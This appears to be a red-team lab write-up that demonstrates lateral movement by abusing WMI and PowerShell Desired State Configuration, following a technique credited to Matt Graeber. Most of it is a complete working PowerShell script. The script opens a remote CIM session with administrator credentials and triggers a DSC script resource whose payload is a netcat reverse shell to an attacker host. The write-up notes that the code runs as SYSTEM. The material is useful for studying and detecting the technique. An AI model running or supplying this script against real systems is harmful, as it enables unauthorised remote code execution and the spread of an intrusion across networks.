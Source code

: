 ```yaml
---
layout: post
title: "wmi + powershell desired state configuration lateral movement"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement/
---
```


---
description: Lateral Movment, Privilege Escalation
---

# WMI + PowerShell Desired State Configuration Lateral Movement

This lab is simply a test of the lateral movement technique desrcibed by Matt Graeber [here](https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06).

## Execution

Below is the powershell script that allows an attacker to execute code on a remote machine via WMI. Note that the payload is defined in the variable `TestScript` on line 7. In our case, the payload is a rudimentary nc reverse shell (luckily, we know the victim has nc on their machine :):

{% code title="dsc.ps1" %}
```csharp
# Credits to Matt Graeber. Code taken from https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06
$MOFContents = @'
instance of MSFT_ScriptResource as $MSFT_ScriptResource1ref
{
	ResourceID = "[Script]ScriptExample";
	GetScript = "\"$(Get-Date): I am being GET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	TestScript = "C:\\tools\\nc.exe 10.0.0.5 443 -e cmd.exe";
	SetScript = "\"$(Get-Date): I am being SET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	SourceInfo = "::3::5::Script";
	ModuleName = "PsDesiredStateConfiguration";
	ModuleVersion = "1.0";
	ConfigurationName = "ScriptTest";
};
 
instance of OMI_ConfigurationDocument
{
	Version="2.0.0";
	MinimumCompatibleVersion = "1.0.0";
	CompatibleVersionAdditionalProperties= {"Omi_BaseResource:ConfigurationName"};
	Author="TestUser";
	GenerationDate="02/26/2018 07:09:21";
	GenerationHost="TestHost";
	Name="ScriptTest";
};
'@

# Change this to false if you want to test the payload locally
$ExecuteRemotely = $True
 
$NormalizedMOFContents = [Text.Encoding]::UTF8.GetString([Text.Encoding]::ASCII.GetBytes($MOFContents))
$NormalizedMOFBytes = [Text.Encoding]::UTF8.GetBytes($NormalizedMOFContents)
$TotalSize = [BitConverter]::GetBytes($NormalizedMOFContents.Length + 4)
 
if ($ExecuteRemotely) {
	# Prepend the length of the payload
	[Byte[]] $MOFBytes = $TotalSize + $NormalizedMOFBytes
} else {
	# If executing locally, you do not prepend the payload length
	[Byte[]] $MOFBytes = $NormalizedMOFBytes
}


# Specify the credentials of your target
$Credential = Get-Credential -Credential "offense\administrator"
$ComputerName = 'ws02'
 
# Establish a remote WMI session with the target system
$RemoteCIMSession = New-CimSession -ComputerName $ComputerName -Credential $Credential
 
$LCMClass = Get-CimClass -Namespace root/Microsoft/Windows/DesiredStateConfiguration -ClassName MSFT_DSCLocalConfigurationManager -CimSession $RemoteCIMSession
 
if ($LCMClass -and $LCMClass.CimClassMethods['ResourceTest']) {
	# You may now proceed with lateral movement
 
	$MethodArgs = @{
    	ModuleName   	= 'PSDesiredStateConfiguration'
    	ResourceType 	= 'MSFT_ScriptResource'
    	resourceProperty = $MOFBytes
	}
 
	$Arguments = @{
    	Namespace  = 'root/Microsoft/Windows/DesiredStateConfiguration'
    	ClassName  = 'MSFT_DSCLocalConfigurationManager'
    	MethodName = 'ResourceTest'
    	Arguments  = $MethodArgs
    	CimSession = $RemoteCIMSession
	}
 
	# Invoke the DSC script resource Test method
	# Successful execution will be indicated by "InDesiredState" returning True and ReturnValue returning 0.
	Invoke-CimMethod @Arguments
 
} else {
	Write-Warning 'The DSC lateral movement method is not available on the remote system.'
}
```
{% endcode %}

The technique is captured in action in a gif below. On the left is the attacking system, on the right is the victim system and the window above the victim screen is another attacking system that is receiving the reverse shell:

![](<../../.gitbook/assets/Peek 2018-11-01 21-48.gif>)

## Observations

Note the process ancestry and that our code was run with privileges of`NT AUTHORITY\SYSTEM`:

![](<../../.gitbook/assets/Screenshot from 2018-11-01 22-00-51.png>)

## References

{% embed url="https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06" %}
@spotheplanet
